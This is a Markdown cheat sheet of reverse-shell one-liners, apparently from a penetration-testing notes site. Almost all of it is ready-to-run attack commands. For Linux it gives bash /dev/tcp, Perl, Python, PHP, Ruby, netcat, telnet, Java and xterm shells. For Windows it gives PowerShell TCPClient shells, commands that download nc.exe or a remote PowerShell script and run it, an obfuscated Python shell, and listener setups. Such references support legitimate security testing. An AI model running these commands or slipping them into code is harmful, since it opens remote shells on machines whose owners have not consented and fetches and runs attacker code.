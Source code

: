 ```yaml
---
layout: default
title: Reverse Shells
tags:
    - bash
    - java
    - netcat
    - nc
    - perl
    - php
    - python
    - ruby
    - telnet
    - xterm
---
```

# Reverse Shells

## Linux
**Bash**

```shell
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

```shell
0<&196;exec 196<>/dev/tcp/<ip>/<port>; sh <&196 >&196 2>&19
```

```shell
exec 5<>/dev/tcp/<ip>/<port>
while read line 0<&5; do $line 2>&5 >&5; done
```

```shell
exec 5<>/dev/tcp/<ip>/<port>; cat <&5 | while read line; do $line 2>&5 >&5; done
```

```shell
sh -i >& /dev/udp/<ip>/<port> 0>&1
```
- UDP, use `-u` flag with nc for catching locally

**Perl**

```shell
perl -e 'use Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```shell
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<ip>:<port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
- no `/bin/sh`

**Python**

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**

```shell
php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Ruby**

```shell
ruby -rsocket -e'f=TCPSocket.open("<ip>",<port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```shell
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- no `/bin/sh`

**Netcat**

```shell
nc -e <shell> <ip> <port>
/bin/sh | nc <ip> <port>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f  # no `-e` flag
```

Secure with whitelisted IP and SSL
```shell
ncat -e <shell> --allow <whitelisted ip> --ssl <ip> <port>  # Whitelist IP and use SSL
ncat -lvnp <port> --ssl                                            # Catch shell
```

**Telnet**

```shell
rm -f /tmp/p; mknod /tmp/p p && telnet <ip> <port> 0/tmp/p
```

```shell
telnet <ip> <listen port> | /bin/bash | telnet <ip> <target port>
```
- listen locally on `<target port>`

**Java**

```java
r = Runtime.getRuntime();
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ip>/<port>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);
p.waitFor();
```

**xterm**

```shell
xterm -display <ip>:1
```
- Port 6001
- Locally, to catch the incoming session on port 6001 `Xnest :1`
- Locally, to authorise the target's connection `xhost +<ip>`

---

## Windows
**Netcat**

Upload nc (e.g. hosted via `python -m SimpleHTTPServer 80` within /usr/share/windows-binaries)
```powershell
powershell Invoke-WebRequest -Uri 'http://10.10.10.10/nc.exe' -OutFile 'nc.exe'
```
```powershell
powershell (New-Object Net.WebClient).DownloadString('http://10.10.10.10/nc.exe', 'nc.exe')
```
```powershell
powershell Start-BitsTransfer -Source 'http://10.10.10.10/nc.exe' -Destination 'nc.exe'
```
```powershell
curl -o nc.exe http://10.10.10.10/nc.exe
```

Execute
```powershell
nc -e powershell 10.10.10.10 9999
```
```powershell
nc -e cmd 10.10.10.10 9999
```

**Perl**

```powershell
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"<ip>:<port>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**Powershell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Download and execute remote PS file and execute (e.g. Nishang)
```powershell
powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/rev-shell.ps1')
```

**Python**

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('<ip>', <port>)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

**Ruby**

```powershell
ruby -rsocket -e 'c=TCPSocket.new("<ip>","<port>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
---

## Catching Shells
**Metasploit**

```shell
use exploit/multi/handler
```

**Netcat**

```shell
nc -lvnp <port>
```
- can use `-vv`/`-vvv` to debug with extra verbosity

## Useful links
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>
